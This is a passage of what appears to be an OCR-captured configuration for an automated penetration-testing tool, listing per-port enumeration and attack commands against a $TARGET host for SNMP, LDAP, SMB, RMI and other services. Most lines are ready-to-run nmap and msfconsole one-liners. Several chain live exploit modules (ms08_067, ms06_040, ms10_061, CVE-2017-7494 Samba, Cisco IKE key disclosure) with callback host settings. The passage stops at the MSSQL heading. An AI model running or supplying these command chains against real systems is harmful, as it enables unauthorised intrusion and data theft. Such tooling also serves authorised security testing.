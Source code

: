         - `msfconsole -q -x "use auxiliary/scanner/smb/pipe_auditor; setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; run; use auxiliary/scanner/smb/pipe_dcerpc_auditor; run; use auxiliary/scanner/smb/psexec_loggedin_users; run; use auxiliary/scanner/smb/smb2; run; use auxiliary/scanner/smb/smb_enum_gpp; run; use auxiliary/scanner/smb/smb_enumshares; run; use auxiliary/scanner/smb/smb_enumusers; run; use auxiliary/scanner/smb/smb_enumusers_domain; run; use auxiliary/scanner/smb/smb_login; run; use auxiliary/scanner/smb/smb_lookupsid; run; use auxiliary/scanner/smb/smb_uninit_cred; run; use auxiliary/scanner/smb/smb_version; run; use exploit/linux/samba/chain_reply; run; use windows/smb/ms08_067_netapi; run; use auxiliary/scanner/smb/smb_ms17_010; run; exit;"`  # SNMP enum
    - 161/snmp:
        - `nmap -v --script-timeout 90 --script=/usr/share/nmap/scripts/vulners,/usr/share/nmap/scripts/snmp-hh3c-logins.nse,/usr/share/nmap/scripts/snmp-interfaces.nse,/usr/share/nmap/scripts/snmp-ios-config.nse,/usr/share/nmap/scripts/snmp-netstat.nse,/usr/share/nmap/scripts/snmp-processes.nse,/usr/share/nmap/scripts/snmp-sysdescr.nse,/usr/share/nmap/scripts/snmp-win32-services.nse,/usr/share/nmap/scripts/snmp-win32-shares.nse,/usr/share/nmap/scripts/snmp-win32-software.nse,/usr/share/nmap/scripts/snmp-win32-users.nse -sV -A -p 161 -sU -sT $TARGET`
        - `msfconsole -q -x "use scanner/snmp/snmp_enum; setg RHOSTS "$TARGET"; run; exit;"` # SNMP enum
    - 162/snmp:
        - `nmap -v --script-timeout 90 --script=/usr/share/nmap/scripts/vulners,/usr/share/nmap/scripts/snmp-hh3c-logins.nse,/usr/share/nmap/scripts/snmp-interfaces.nse,/usr/share/nmap/scripts/snmp-ios-config.nse,/usr/share/nmap/scripts/snmp-netstat.nse,/usr/share/nmap/scripts/snmp-processes.nse,/usr/share/nmap/scripts/snmp-sysdescr.nse,/usr/share/nmap/scripts/snmp-win32-services.nse,/usr/share/nmap/scripts/snmp-win32-shares.nse,/usr/share/nmap/scripts/snmp-win32-software.nse,/usr/share/nmap/scripts/snmp-win32-users.nse -sV -A -p 162 -sU -sT $TARGET`
        - `msfconsole -q -x "use scanner/snmp/snmp_enum; setg RHOSTS "$TARGET"; run; exit;"` # SNMP enum
    - 264/?:
        - `msfconsole -q -x "use auxiliary/gather/checkpoint_hostname; setg RHOSTS "$TARGET"; run; exit;"`
    - 389/?:
        - `nmap -A -p 389 -Pn -v --script-timeout 90 --script=ldap*`
        - `ldapsearch -h $TARGET 389 -x -s base -b '' "(objectClass=*)" "*"`
    - 445/smb:
        - `nmap -A -sV -Pn -p445 -v --script-timeout 90 --script=smb*`
        - `enum4linux $TARGET`
        - `python $SAMRDUMP $TARGET`
        - `nbtscan $TARGET`
        - `msfconsole -q -x "setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; setg RHOSTS "$TARGET"; setg LHOST "$MSF_LHOST"; setg LPORT "$MSF_LPORT"; use auxiliary/scanner/smb/smb_version; run; use auxiliary/scanner/smb/pipe_auditor; run; use auxiliary/scanner/smb/pipe_dcerpc_auditor; run; use auxiliary/scanner/smb/psexec_loggedin_users; run; use auxiliary/scanner/smb/smb2; run; use auxiliary/scanner/smb/smb_enum_gpp; run; use auxiliary/scanner/smb/smb_enumshares; run; use auxiliary/scanner/smb/smb_enumusers; run; use auxiliary/scanner/smb/smb_enumusers_domain; run; use auxiliary/scanner/smb/smb_login; run; use auxiliary/scanner/smb/smb_lookupsid; run; use auxiliary/scanner/smb/smb_uninit_cred; run; use auxiliary/scanner/smb/smb_version; run; use exploit/linux/samba/chain_reply; run; use windows/smb/ms08_067_netapi; run; use exploit/windows/smb/ms06_040_netapi; run; use exploit/windows/smb/ms05_039_pnp; run; use exploit/windows/smb/ms10_061_spoolss; run; use exploit/windows/smb/ms09_050_smb2_negotiate_func_index; run; use auxiliary/scanner/smb/smb_enum_gpp; run; use auxiliary/scanner/smb/smb_ms17_010; run; exit;"`
        - `msfconsole -q -x "setg RHOSTS "$TARGET"; setg RHOST "$TARGET"; use linux/samba/is_known_pipename; run; exit;"` # CVE-2017-7494
        - `msfconsole -q -x "use auxiliary/scanner/ike/cisco_ike_benigncertain; set RHOSTS "$TARGET"; set PACKETFILE /usr/share/metasploit-framework/data/exploits/cve-2016-6415/sendpacket.raw; set THREADS 24; set RPORT 500; run; exit;"` # CISCO Ike Key Disclosure Exploit
    - 512/rexec:
        - `nmap -A -sV -Pn -p 512 -v --script-timeout 90 --script=rexec*`
    - 513/rlogin:
        - `nmap -A -sV -Pn -p 513 -v --script-timeout 90 --script=rlogin*`
    - 514/?
        - `amap $TARGET 514 -A`
    - 1099/?
        - `amap $TARGET 1099 -A`
        - `nmap -A -sV -Pn -p 1099 -v --script-timeout 90 --script=rmi-*`
        - `msfconsole -q -x "use gather/java_rmi_registry; set RHOST "$TARGET"; run; exit;"`
        - `msfconsole -q -x "use scanner/misc/java_rmi_server; set RHOST "$TARGET"; run; exit;"`
    - 1433/mssql: